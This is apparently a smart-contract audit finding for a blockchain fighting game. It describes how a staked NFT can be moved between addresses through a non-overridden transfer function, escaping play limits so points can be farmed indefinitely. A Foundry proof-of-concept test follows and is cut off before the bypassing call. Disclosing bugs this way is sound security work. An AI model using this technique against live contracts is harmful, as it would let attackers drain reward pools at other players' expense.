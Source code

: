 A user can create multiple addresses and play the game infinitely with just 1 NFT token. The user can bypass all the checks that are in place that try to prevent this exact scenario. This way the user can stack points across multiple addresses and potentially claim a HUGE portion of NRN tokens at the end of the round.

## Proof of Concept

Consider the following scenario:

1. User has 1 NFT token.
2. User stakes the NFT so he can earn points while playing the game.
3. User plays all 10 games of the day and doesn't want to spend money to buy a battery to recharge his voltage to keep playing.
4. User simply transfers his NFT using this exploit to another address that he owns.
5. User stakes the NFT again from the second address.
6. User plays another 10 games gaining points.
7. User can repeat this infinitely.

Proof of Code (paste the code below in `RankedBattle.t.sol` test file):

```javascript
    function testPlayerWithOneFighterCanPlayInfinitely() public {
        
        // Create 2 addresses that the attacker controls
        address attacker = vm.addr(3);
        address attacker2 = vm.addr(4);

        // Use helper function to mint attacker 1 NFT
        _mintFromMergingPool(attacker);
        uint8 attackerTokenId = 0;

        // Use helper function to mint attacker 4k NRN tokens to be able to stake
        _fundUserWith4kNeuronByTreasury(attacker);

        // Attacker stakes 2 NRN tokens and his NFT
        vm.prank(attacker);
        _rankedBattleContract.stakeNRN(2 * 10 ** 18, attackerTokenId);
        assertEq(_rankedBattleContract.amountStaked(attackerTokenId), 2 * 10 ** 18);

        // Attacker plays 10 games which is the limit
        vm.startPrank(address(_GAME_SERVER_ADDRESS));
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        vm.stopPrank();

        uint256 wins;
        (wins ,,) = _rankedBattleContract.fighterBattleRecord(attackerTokenId);
        assertEq(wins, 10);

        // Attacker tries to transfer his NFT using the function with the vital checks
        // Transaction reverts
        vm.prank(attacker);
        vm.expectRevert();
        _fighterFarmContract.safeTransferFrom(attacker, attacker2, attackerTokenId);

        // Attacker successfully transfers his NFT using the function which is not overriden
        // Passing any random data as input 
```
